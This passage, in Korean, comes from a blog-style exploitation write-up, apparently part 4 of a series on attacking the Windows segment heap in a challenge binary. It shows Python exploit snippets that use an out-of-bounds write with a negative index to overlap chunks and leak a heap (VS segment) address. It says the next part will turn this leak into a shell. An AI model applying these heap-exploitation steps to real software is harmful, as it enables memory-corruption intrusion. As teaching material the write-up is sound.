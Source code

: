 그럼 네 번째 청크의 문자열 청크 주소에 입력한 40개의 a가 들어갑니다. 그런데, 아래 보이는 `segment base + 0x55050`는 아까 생성한 7번째 Overlap chunk네요. a로 채운곳과 7번째 청크의 문자열 힙 포인터 사이 8바이트를 더 채우고 네 번째 청크 문자열을 출력하면 뒤의 힙 청크 주소를 출력할 수 있을 것 같습니다!

```python
setvalue(7,1,-0x4b ,0x6161616161616161)
```

![Untitled](segment-heap-part4/Untitled%2018.png)

set value type 1로 `0x6161616161616161` 을 `-0x4b` index에 쓰면 문자열 청크 포인터 전까지 모두 채울 수 있습니다. 

```python
getvalue(3)
p.recvuntil("a"*0x48)
vs_segment = u64(p.recvuntil("\r\n")[:-2].ljust(8,"\x00")) - 0x80
print("vs_segment:",hex(vs_segment))
```

![스크린샷 2021-12-19 17.18.58.png](segment-heap-part4/pic2.png)

그리고 네 번째 청크 문자열을 출력한 결과를 보면 힙 주소(VS 세그먼트) 주소를 leak한 것을 볼 수 있네요!

마지막 파트 5에서는 leak한 주소를 이용해 ntdll 등 기타 익스에 필요한 주소를 구하고 쉘까지 띄우는 것으로 마무리하겠습니다. 아마 2022년에 올라오겠네요 ㅎㅎ 내년에 마지막 파트로 찾아오겠습니다!